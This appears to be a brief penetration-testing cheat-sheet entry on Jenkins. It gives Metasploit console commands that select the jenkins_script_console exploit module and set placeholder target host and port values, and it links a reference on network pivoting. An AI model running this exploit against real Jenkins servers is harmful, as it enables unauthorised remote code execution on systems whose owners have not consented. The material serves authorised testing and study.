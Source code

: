 # Jenkins

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

---
## References

- [Double Pivoting | Metasploit and Manual Pivoting](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)